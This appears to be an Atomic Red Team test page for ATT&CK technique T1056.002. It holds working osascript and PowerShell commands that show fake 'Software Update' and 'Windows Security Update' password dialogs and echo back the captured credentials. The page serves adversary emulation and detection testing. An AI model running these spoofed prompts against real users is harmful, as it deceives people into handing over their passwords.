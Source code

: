 ```yaml
---
tags: [T1056_002, atomic_test]
filename: "[[T1056.002|T1056.002 - Input Capture: GUI Input Capture]]"
---
```


# T1056.002 - Input Capture: GUI Input Capture
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1056/002)
<blockquote>Adversaries may mimic common operating system GUI components to prompt users for credentials with a seemingly legitimate prompt. When programs are executed that need additional privileges than are present in the current user context, it is common for the operating system to prompt the user for proper credentials to authorize the elevated privileges for the task (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002)).

Adversaries may mimic this functionality to prompt users for credentials with a seemingly legitimate prompt for a number of reasons that mimic normal usage, such as a fake installer requiring additional access or a fake malware removal suite.(Citation: OSX Malware Exploits MacKeeper) This type of prompt can be used to collect credentials via various languages such as [AppleScript](https://attack.mitre.org/techniques/T1059/002)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: OSX Keydnap malware)(Citation: Spoofing credential dialogs) and [PowerShell](https://attack.mitre.org/techniques/T1059/001).(Citation: LogRhythm Do You Trust Oct 2014)(Citation: Enigma Phishing for Credentials Jan 2015)(Citation: Spoofing credential dialogs) On Linux systems adversaries may launch dialog boxes prompting users for credentials from malicious shell scripts or the command line (i.e. [Unix Shell](https://attack.mitre.org/techniques/T1059/004)).(Citation: Spoofing credential dialogs) </blockquote>

## Atomic Tests

- [Atomic Test #1 - AppleScript - Prompt User for Password](#atomic-test-1---applescript---prompt-user-for-password)

- [Atomic Test #2 - PowerShell - Prompt User for Password](#atomic-test-2---powershell---prompt-user-for-password)

- [Atomic Test #3 - AppleScript - Spoofing a credential prompt using osascript](#atomic-test-3---applescript---spoofing-a-credential-prompt-using-osascript)


<br/>

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS


**auto_generated_guid:** 76628574-0bc1-4646-8fe2-8f4427b47d15






#### Attack Commands: Run with `bash`! 


```bash
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```






<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT. Upon execution, a window will appear for the user to enter their credentials.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows


**auto_generated_guid:** 2b162bfd-0928-4d4c-9ec3-4d9f88374b52






#### Attack Commands: Run with `powershell`! 


```powershell
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```






<br/>
<br/>

## Atomic Test #3 - AppleScript - Spoofing a credential prompt using osascript
Prompt user for password without requiring permissions to send Apple events to System Settings.
https://embracethered.com/blog/posts/2021/spoofing-credential-dialogs/

**Supported Platforms:** macOS


**auto_generated_guid:** b7037b89-947a-427a-ba29-e7e9f09bc045






#### Attack Commands: Run with `bash`! 


```bash
PWD_SPOOF=$(osascript -e 'display dialog "To perform a security update MacOS needs your passphrase." with title "MacOS Security Update" default answer "" with icon stop with hidden answer')
echo $PWD_SPOOF
```






<br/>
